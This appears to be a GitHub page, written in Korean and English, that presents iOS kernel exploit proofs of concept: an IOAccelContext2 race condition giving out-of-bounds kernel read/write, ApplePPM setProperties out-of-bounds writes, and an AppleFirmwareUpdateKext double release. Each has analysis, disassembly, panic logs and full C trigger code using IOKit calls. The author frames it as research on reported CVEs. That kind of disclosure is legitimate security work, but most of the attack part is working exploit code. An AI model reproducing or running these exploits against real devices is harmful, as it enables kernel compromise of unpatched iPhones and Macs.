

## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.


IOGPU 제품군(IOAcceleratorFamily의 후속 제품)과 
함께 제공되는 iOS 14.1을 확인했지만 버그를 유발하는 
일치하는 패턴을 찾지 못했기 때문에 iOS 13.x 및 
IOAcceleratorFamily를 사용하는 모든 장치(예: macOS)에서만 작동합니다.


iOS 13.6으로 인해 익스플로잇을 처음부터 다시 작성해야 했습니다.



## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

## ApplePPM_oobw.c
## iOS ApplePPM::setProperties() OOB writes


```
#if 0
Fixed in iOS 13.0 with CVE-2019-8712.

ApplePPM::setProperties() : OSArray::initWithArray called without locks leads to OOB Writes

__thiscall ApplePPM::setProperties(ApplePPM *this,OSDictionary *param_1)
{
    ...
    ...
    
    aKey = PTR_fffffff006fc3190[lVar7];   <--- takes a string key from an array
    object = (*Dictionary->vtable->getObject)(Dictionary, aKey);    <-- Dictionary is user controlled object
    Array = (OSArray *)safeMetaCast(object,OSArray_metaClass);
    i = 0
    if (Array != NULL) {
        iVar1 = (&DAT_fffffff006fc3188)[i];                         <--- takes an integer
        ...
        ApplePPMSystemCapabilityMonitor::setOverrideBatteryParameter
        (this->anObject,iVar1,Array);
        bVar2 = true;
    }
    ...
}
void __thiscall
ApplePPMSystemCapabilityMonitor::setOverrideBatteryParameter
(ApplePPMSystemCapabilityMonitor *this,int param_1,OSArray *user_array)
{
    OSArray *arr;
    ...
    (*arr->vtable->initWithArray)(arr,user_array,0);                <-- Initializes 'arr' with our user_array object
    return;
}

There are two problems here : OSArray::initWithArray() leaks memory through 'array' member AND it’s not an ATOMIC operation and must held locks before calling it.

bool OSArray::initWithObjects(const OSObject *objects[],
                              unsigned int theCount,
                              unsigned int theCapacity)
{
    unsigned int initCapacity;
    
    if (!theCapacity)
        initCapacity = theCount;
    else if (theCount > theCapacity)
        return false;
    else
        initCapacity = theCapacity;
    
    if (!objects || !initWithCapacity(initCapacity))
        return false;
    
    for ( unsigned int i = 0; i < theCount; i++ ) {     <— (1)
        const OSMetaClassBase *newObject = *objects++;
        
        if (!newObject)
            return false;
        
        array[count++] = newObject;                 <-- (2)
        newObject->taggedRetain(OSTypeID(OSCollection));
    }
    
    return true;
}

(1) The loop relies on 'theCount' which is the user_array counting.
(2) 'count' is not atomic and can be raced

If we call ApplePPM::setProperties() just twice with a well crafter Array object, we can have a reliable arbitrary Out-Of-Bounds Writes
The race can be easily won by increasing the array capacity

here is a panic log using allocation in a large zone

The panic occurs here :
fffffff0075576d0                 str                  w10, [x21, #0x14]
fffffff0075576d4                 str                  x0, [x8, x9, LSL #0x3]    <-- OOB write here
fffffff0075576d8                 ldr                  x8, [x0]
fffffff0075576dc                 ldr                  x8, [x8, #0x48]
fffffff0075576e0                 mov                  x1, x22
fffffff0075576e4                 blr                  x8

Debugger synchronization timed out; waited 10000000 nanoseconds
panic(cpu 2 caller 0xfffffff025806ca4): Kernel data abort. (saved state: 0xffffffe04f863310)
x0: 0xffffffe0067feb20  x1:  0xfffffff025c66208  x2:  0x0000000000000000  x3:  0xffffffe03f64f900
x4: 0xffffffe03f63c080  x5:  0x0000000000000000  x6:  0x0000000000000001  x7:  0x0000000000000009
x8: 0xffffffe03f63c000  x9:  0x0000000000002801  x10: 0x0000000000002802  x11: 0x00000000ffdfffff
x12: 0x6000000000000000 x13: 0xfffffff025cae000  x14: 0x000000084be38000  x15: 0xffffffe00669a0f1
x16: 0x0000000000000001 x17: 0x0000000000000000  x18: 0xfffffff0256dd000  x19: 0x0000000000002728
x20: 0xffffffe03f538000 x21: 0xffffffe000967b10  x22: 0xfffffff025c66208  x23: 0x00000000000022ce
x24: 0xfffffff02450f568 x25: 0xffffffe000d64690  x26: 0x0000000000000040  x27: 0xfffffff0255c3188
x28: 0x0000000000000001 fp:  0xffffffe04f863690  lr:  0xfffffff025b576e8  sp:  0xffffffe04f863660
pc:  0xfffffff025b576d4 cpsr: 0x80400304         esr: 0x96000047          far: 0xffffffe03f650008

secure boot?: YES
Paniclog version: 11
Kernel slide:     0x000000001e600000
Kernel text base: 0xfffffff025604000
Epoch Time:        sec       usec
Boot    : 0x5ce34e8a 0x0009e626
Sleep   : 0x5ce3533e 0x00070576
Wake    : 0x5ce35343 0x00053cec
Calendar: 0x5ce35389 0x000b7336

Panicked task 0xffffffe0016ec000: 593 pages, 6 threads: pid 680: multi
Panicked thread: 0xffffffe0019d9a40, backtrace: 0xffffffe04f862b30, tid: 11006
lr: 0xfffffff0258075c8  fp: 0xffffffe04f862c70
lr: 0xfffffff0256dd610  fp: 0xffffffe04f862c80
lr: 0xfffffff0257120d4  fp: 0xffffffe04f862ff0
lr: 0xfffffff02571244c  fp: 0xffffffe04f863030
lr: 0xfffffff0257122a0  fp: 0xffffffe04f863050
lr: 0xfffffff025806ca4  fp: 0xffffffe04f8631b0
lr: 0xfffffff025807cd0  fp: 0xffffffe04f8632f0
lr: 0xfffffff0256dd610  fp: 0xffffffe04f863300
lr: 0xfffffff025b576d4  fp: 0xffffffe04f863690
lr: 0xfffffff02527f5d0  fp: 0xffffffe04f8636c0
lr: 0xfffffff025277e10  fp: 0xffffffe04f8637a0
lr: 0xfffffff025bf1bb8  fp: 0xffffffe04f863800
lr: 0xfffffff0257da628  fp: 0xffffffe04f863830
lr: 0xfffffff0256f6174  fp: 0xffffffe04f8639c0
lr: 0xfffffff0257084a0  fp: 0xffffffe04f863b40
lr: 0xfffffff025807d70  fp: 0xffffffe04f863c80
lr: 0xfffffff0256dd610  fp: 0xffffffe04f863c90
lr: 0x0000000237133ea4  fp: 0x0000000000000000

Another kernel panic log in small memory zone :

"panicString" : "panic(cpu 3 caller 0xfffffff01ff5805c): \"a freed zone element has been modified in zone kalloc.576: expected 0xc0ffee0278f33d10 but found 0xffffffe005a50720, bits changed 0x3f0011e27d563a30, at offset 0 of 576 in element 0xffffffe0020c3840, cookies 0x3f0011e27aff32d0 0x535219d00ce6bc1\"
Debugger message: panic
secure boot?: YES
Paniclog version: 11
Kernel slide:     0x0000000018e00000
Kernel text base: 0xfffffff01fe04000
Epoch Time:        sec       usec
Boot    : 0x5ce37b3a 0x00002123
Sleep   : 0x5ce37b54 0x00093657
Wake    : 0x5ce37b56 0x000ee83b
Calendar: 0x5ce37c68 0x000b0018

Panicked task 0xffffffe0040832a0: 364 pages, 3 threads: pid 1330: multi
Panicked thread: 0xffffffe0041eb480, backtrace: 0xffffffe04a3a2e20, tid: 10931
lr: 0xfffffff0200075c8  fp: 0xffffffe04a3a2f60
lr: 0xfffffff01fedd610  fp: 0xffffffe04a3a2f70
lr: 0xfffffff01ff120d4  fp: 0xffffffe04a3a32e0
lr: 0xfffffff01ff1244c  fp: 0xffffffe04a3a3320
lr: 0xfffffff01ff122a0  fp: 0xffffffe04a3a3340
lr: 0xfffffff01ff5805c  fp: 0xffffffe04a3a33e0
lr: 0xfffffff01ff57994  fp: 0xffffffe04a3a3470
lr: 0xfffffff01ff56bb8  fp: 0xffffffe04a3a35e0
lr: 0xfffffff01ff1ac14  fp: 0xffffffe04a3a3630
lr: 0xfffffff020357618  fp: 0xffffffe04a3a3670
lr: 0xfffffff0203583cc  fp: 0xffffffe04a3a3690
lr: 0xfffffff020378e70  fp: 0xffffffe04a3a37a0
lr: 0xfffffff0203f1b28  fp: 0xffffffe04a3a3800
lr: 0xfffffff01ffda628  fp: 0xffffffe04a3a3830
lr: 0xfffffff01fef6174  fp: 0xffffffe04a3a39c0
lr: 0xfffffff01ff084a0  fp: 0xffffffe04a3a3b40
lr: 0xfffffff020007d70  fp: 0xffffffe04a3a3c80
lr: 0xfffffff01fedd610  fp: 0xffffffe04a3a3c90

#endif


#include <stdio.h>
#include <unistd.h>
#include <mach/mach.h>
#include <mach/mach_error.h>
#include <stdlib.h>
#include <CoreFoundation/CoreFoundation.h>
#include <pthread.h>

#define self    mach_task_self()
#define CHECK_MACH_ERR(kr,name)  do {       \
if (kr != KERN_SUCCESS) {       \
printf("%s : %s (0x%x)\n", \
name,mach_error_string(kr),kr); \
exit(1);} \
}while(0);

#define NAME "ApplePPM"

// IOKIT
typedef mach_port_t io_connect_t;
typedef mach_port_t io_service_t;
typedef mach_port_t io_iterator_t;
typedef mach_port_t io_object_t;
typedef mach_port_t io_registry_entry_t;
typedef    char            io_name_t[128];

#define IO_OBJECT_NULL 0
extern const mach_port_t kIOMasterPortDefault;

kern_return_t IOConnectCallMethod(mach_port_t connection, uint32_t selector, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt);
io_service_t IOServiceGetMatchingService(mach_port_t masterPort, CFDictionaryRef matching);
kern_return_t IOServiceOpen(io_service_t service, task_port_t owningTask, uint32_t type,io_connect_t *connect);
boolean_t IOIteratorIsValid(io_iterator_t iterator);
io_object_t IOIteratorNext(io_iterator_t iterator);
kern_return_t IORegistryEntryGetName(io_registry_entry_t entry, io_name_t name);
kern_return_t IOServiceGetMatchingServices(mach_port_t masterPort, CFDictionaryRef matching, io_iterator_t *existing);
kern_return_t IOServiceClose(io_connect_t connect);
uint32_t IOObjectGetRetainCount(io_object_t object);
uint32_t IOObjectGetKernelRetainCount(io_object_t object);
uint32_t IOObjectGetRetainCount(io_object_t object);
kern_return_t io_object_get_retain_count(mach_port_t object,uint32_t *retainCount);
kern_return_t IOObjectRelease(io_object_t object);
kern_return_t IORegistryEntrySetCFProperties(io_registry_entry_t entry, CFTypeRef properties);

CFMutableDictionaryRef IOServiceMatching(const char *name);

kern_return_t iokit_iterate_all(io_connect_t * conn_out);
kern_return_t iokit_get_connection(const char *service_name,io_connect_t *conn);

io_connect_t cc = 0;


io_service_t service = 0;

kern_return_t iokit_get_service(const char *service_name,io_service_t *service)
{
    kern_return_t kr = KERN_SUCCESS;
    *service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                            IOServiceMatching(service_name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    return kr;
}

CFDictionaryRef prepare_array_with_size(CFIndex capacity)
{
#define SET "BaselineSystemCapability"
    CFMutableDictionaryRef Dict = CFDictionaryCreateMutable(NULL,0x10000,&kCFTypeDictionaryKeyCallBacks,&kCFTypeDictionaryValueCallBacks);
    CFStringRef str = NULL;

    char *buf = malloc(1000);
    memset(buf,0xcc,1000);
    CFDataRef Data = CFDataCreate(NULL,(const UInt8 *)buf,1000);

    const char *keys[] = {
        "BaselineSystemCapability",
        "OverrideSystemCapability",
        "OverrideBatteryInputRaTable",
        "OverrideBatteryInputTimeScales",
        "OverrideBatteryInputSystemLoadPower"
    };
   
    printf("Array with size %x \n",(uint32_t)capacity);
    CFMutableArrayRef Array = CFArrayCreateMutable(NULL , capacity, &kCFTypeArrayCallBacks);

    for(int i=0;i < capacity; i++) {
        uint32_t val = 0x41414141;
        CFNumberRef num = CFNumberCreate(NULL, 32, &val);
        CFArrayAppendValue(Array, num);
        CFRelease(num);
    }
    
    str = CFStringCreateWithCString(0,"OverrideBatteryInputSystemLoadPower",kCFStringEncodingUTF8);
    CFDictionaryAddValue(Dict,str,Array);

    return Dict;
}

void setProperties(CFDictionaryRef Dict)
{
    kern_return_t kr = IORegistryEntrySetCFProperties(service,Dict);
    printf("IORegistryEntrySetCFProperties kr=%x %s\n",
           kr,mach_error_string(kr));
}

void *start_thread(void *dict)
{
    setProperties((CFDictionaryRef)dict);
    return NULL;
}

int do_poc(int argc,char **argv)
{
    pthread_t tids[2] = {0};

    iokit_get_service(NAME, &service);
    printf("service : %x \n",service);
    struct threads *s1,*s2,*s3,*s4;
   
    CFDictionaryRef dict1 = prepare_array_with_size(0x1000);
    CFDictionaryRef dict2 = prepare_array_with_size(0x1000);
    
    uint64_t *ptr[2] = {dict1,dict2};
    
    for(int i=0; i< 2; i++)
        pthread_create(&tids[i],NULL,start_thread,ptr[i]);
    
    for(int i=0; i< 2; i++)
        pthread_join(tids[i],NULL);
    
    return 0;
}

int main(int argc,char **argv)
{
    do_poc(argc,argv);
    return 0;
}
```
## afuu.c
## iOS AppleFirmwareUpdateKext::loadFirmware() : Missing lock leads to double object release
```
#if 0
// Fixed in iOS 13.1 with CVE-2019-8747

__thiscall
AppleFirmwareUpdateKext::loadFirmware
(AppleFirmwareUpdateKext *this,IOMemoryDescriptor *Memory,void *off_0x10,uint off_0x18)
{
    uint uVar1;
    byte addr;
    byte len;
    bool bVar2;
    int iVar3;
    AppleFirmwareUpdateKext *pAVar4;
    IOMemoryMap *_firmwareMap;
    OSData *Data;
    char *pcVar5;
    uint uVar6;
    
    if (Memory == (IOMemoryDescriptor *)0x0) {
        pcVar5 = (*this->getName)();
        _IOLog("%s[%p]::%s() Invalid _firmwareDescriptor\n");
        iVar3 = -0x1ffffd3e;
    }
    else {
        
        (*Memory->prepare)(Memory,0);
        _firmwareMap = Memory->map(this,0x1000);
        this->_firmwareMap = _firmwareMap;                <—— (a)
        …
        
        else {
            addr = _firmwareMap->getVirtualAddress)();
            len = (*this->_firmwareMap->getLength)();
            _firmwareBuffer = withBytes((void *)(ulonglong)addr,(uint)len);
            
            this->_firmwareBuffer = _firmwareBuffer;                            <— (a.a)
            
            …
            ….
            
            if (this->_firmwareMap != (IOMemoryMap *)0x0) {
                (*this->_firmwareMap->release)();                        <— (b.a)
                this->_firmwareMap = (IOMemoryMap *)0x0;
            }
            if (this->Data != (OSData *)0x0) {
                (*this->Data->release)();            <— (b.b)
                this->Data = (OSData *)0x0;
            }
            if ((longlong *)this->field_0xd8 != (longlong *)0x0) {
                (**(code **)(*(longlong *)this->field_0xd8 + 0x28))();
                this->field_0xd8 = 0;
            }
            return (ulonglong)uVar1;
        }
        
this->_firmwareMap and this->_firmwareBuffer must be atomically set, as shown above,
        in (a) and (a.a), there is no locks protecting them from concurrent usage.
When ::loadFirmware is done, it releases both _firmwareMap and _firmwareBuffer,
        
It’s possible to call ::loadFirmware() with valid buffer, then create threads with invalid buffers to  call ::release() at least twice in (b.a) and (b.b). This could lead to Double Free/ UaF bug.
        
#endif
        
#include <stdio.h>
#include <unistd.h>
#include <mach/mach.h>
#include <mach/mach_error.h>
#include <stdlib.h>
#include <CoreFoundation/CoreFoundation.h>
#include <pthread.h>
#define NAME "AppleFirmwareUpdateKext"

#define self    mach_task_self()
#define CHECK_MACH_ERR(kr,name)  do {       \
if (kr != KERN_SUCCESS) {       \
printf("%s : %s (0x%x)\n", \
name,mach_error_string(kr),kr); \
exit(1);} \
}while(0);


// IOKIT
typedef mach_port_t io_connect_t;
typedef mach_port_t io_service_t;
typedef mach_port_t io_iterator_t;
typedef mach_port_t io_object_t;
typedef mach_port_t io_registry_entry_t;
typedef    char            io_name_t[128];

#define IO_OBJECT_NULL 0
extern const mach_port_t kIOMasterPortDefault;

kern_return_t IOConnectCallMethod(mach_port_t connection, uint32_t selector, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt);
io_service_t IOServiceGetMatchingService(mach_port_t masterPort, CFDictionaryRef matching);
kern_return_t IOServiceOpen(io_service_t service, task_port_t owningTask, uint32_t type,io_connect_t *connect);
boolean_t IOIteratorIsValid(io_iterator_t iterator);
io_object_t IOIteratorNext(io_iterator_t iterator);
kern_return_t IORegistryEntryGetName(io_registry_entry_t entry, io_name_t name);
kern_return_t IOServiceGetMatchingServices(mach_port_t masterPort, CFDictionaryRef matching, io_iterator_t *existing);
kern_return_t IOServiceClose(io_connect_t connect);
uint32_t IOObjectGetRetainCount(io_object_t object);
uint32_t IOObjectGetKernelRetainCount(io_object_t object);
uint32_t IOObjectGetRetainCount(io_object_t object);
kern_return_t io_object_get_retain_count(mach_port_t object,uint32_t *retainCount);
kern_return_t IOObjectRelease(io_object_t object);
kern_return_t IORegistryEntrySetCFProperties(io_registry_entry_t entry, CFTypeRef properties);

CFMutableDictionaryRef IOServiceMatching(const char *name);

kern_return_t iokit_get_connection(const char *service_name,io_connect_t *conn);

io_connect_t c = 0;

struct args {
    void* address;
    uint64_t  size;
    uint64_t  off_0x10;
    uint64_t  off_0x18;
};

struct args *prepare(size_t sz,uint a,uint b)
{
    struct args *arg = malloc(sizeof(struct args));
    assert(arg);
    
    arg->size = sz;
    
    arg->address = malloc(sz);
    assert(arg->address);

    arg->off_0x10 = a;
    arg->off_0x18 = b;
    return arg;
}


void *loadFirmware(void* arg)
{
    kern_return_t kr = KERN_SUCCESS;
    struct args *a = prepare(0x10000000,0,0);
    
    
    int val = 0;
    printf("val %x \n",val);

    int selector = 0;
    memset(a->address,0x41,a->size);
    
    kr = IOConnectCallMethod(c,
                             selector,                      //selector,
                             a,                         // scalarInput
                             4,                      // scalarInputCnt
                             NULL,                   // In struct
                             0,                // In struct count
                             NULL,                        // Out Scalar
                             NULL,              // Out Scalar
                             NULL,                  // Out Struct
                             NULL);       // In/Out Struct Cnt
    printf("[*] selector=%d, kr =%x %s \n",
           selector,kr,mach_error_string(kr));
    
    return NULL;
}

kern_return_t iokit_get_connection(const char *service_name,io_connect_t *conn)
{
    kern_return_t kr = KERN_SUCCESS;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(service_name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }
    kr = IOServiceOpen(service, self, 0, conn);
    CHECK_MACH_ERR(kr,"IOServiceOpen");
    printf("Got connection %x of %s\n",*conn,service_name);
    
    return kr;
}

int main(int argc,char **argv)
{
    kern_return_t kr = KERN_SUCCESS;
    
    // AppleFirmwareUpdateUserClient
    kr = iokit_get_connection(NAME, &c);
    printf("Client created %x \n",c);
    
    loadFirmware(NULL);
    pthread_t th;
    pthread_create(&th,NULL,loadFirmware,NULL);
    pthread_t th2;
    pthread_create(&th2,NULL,loadFirmware,NULL);

    pthread_join(th,NULL);
    pthread_join(th2,NULL);
    printf("See crash ? \n");
    return 0;
}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
